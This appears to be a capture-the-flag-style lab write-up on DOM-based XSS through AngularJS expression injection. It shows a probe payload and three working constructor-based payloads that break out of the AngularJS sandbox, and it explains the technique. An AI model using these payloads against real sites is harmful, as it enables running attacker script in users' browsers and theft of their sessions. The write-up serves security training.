




# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
# Objective
This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.\
\
AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.\
\
To solve this lab, perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function.

# Solution
## Analysis
Payload: `{{ 2 + 2 }}` results in JavaScript execution (addition)
||
|:--:| 
| *Equation was calculated -> Code was executed* |

## XSS
There are different possible solutions to this lab.

### Payload 1
```
{{ $eval.constructor('alert()')() }}
```


### Payload 2
```
{{ $on.constructor('alert()')() }}
```


### Payload 3
```
{{ $apply.constructor('alert()')() }}
```


`.constructor` is data property of an object. It returns a reference to the constructor function that created object instance - `Function()`. `Function()` is a function constructor. By passing to it values it is possible to create new functions.\
In context of this lab, function constructor is called with `alert()`. By adding `()` before closing double curly braces function `$eval.constructor('alert()')` is called directly.